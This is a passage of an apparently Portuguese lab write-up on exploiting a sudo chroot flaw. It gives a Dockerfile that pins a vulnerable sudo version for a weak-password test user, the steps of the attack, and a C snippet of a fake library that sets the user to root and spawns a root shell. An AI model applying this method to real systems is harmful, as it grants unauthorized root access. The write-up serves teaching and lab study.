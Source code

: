 Para você entender melhor o ambiente usado, abaixo o Dockerfile da imagem que foi usada para os testes deste
laboratório.

```Dockerfile
FROM ubuntu:24.04

ENV DEBIAN_FRONTEND=noninteractive

SHELL ["/bin/bash", "-o", "pipefail", "-c"]

# Prepare the environment
RUN apt-get update -y \
    && apt-get install -y --no-install-recommends \
        gcc=* libc6-dev=* ca-certificates=* libnss3-tools=* \
        sudo=1.9.15p5-3ubuntu5 \
# Clean up
    && rm -rf /var/lib/apt/lists/* /var/cache/apt/archives/*

# ==================================================================
# Setup
# ------------------------------------------------------------------
ARG GID=1001
ARG UID=1001
ARG USERNAME="normalzinho"
RUN groupadd -g "${GID}" -o "${USERNAME}" \
    && useradd -m -u "${UID}" -g "${GID}" -o -s /bin/bash -p "$(openssl passwd -1 123456)" -l "${USERNAME}"
USER $USERNAME

# Copiar a ferramenta que explora falha para a minha imagem
COPY local/abra-cadabra.sh /home/normalzinho/abra-cadabra.sh

HEALTHCHECK NONE
```

## Alguns detalhes técnicos

Passados mais de um mês da descoberta e divulgação da falha de segurança, podemos oferecer alguns detalhes sobre sua
exploração:

Para explorar a falha, precisamos:

- ter acesso local à máquina (CLI, por exemplo);
- criar/ter acesso a um diretório local comprometido;
- neste diretório, criar uma biblioteca de sistema fake que faça o que precisamos fazer, ou seja, que nos dê acesso como
  root;
- executar o `sudo` com chroot para o diretório comprometido.

Nossa biblioteca precisa, basicamente:

```C
setreuid(0,0); # Alterar (setar) o usuário e o grupo
setregid(0,0);
chdir("/");    # Alterar o diretório corrente (nós vamos usar sudo com chroot)
execl("/bin/bash", "/bin/bash", NULL);
```
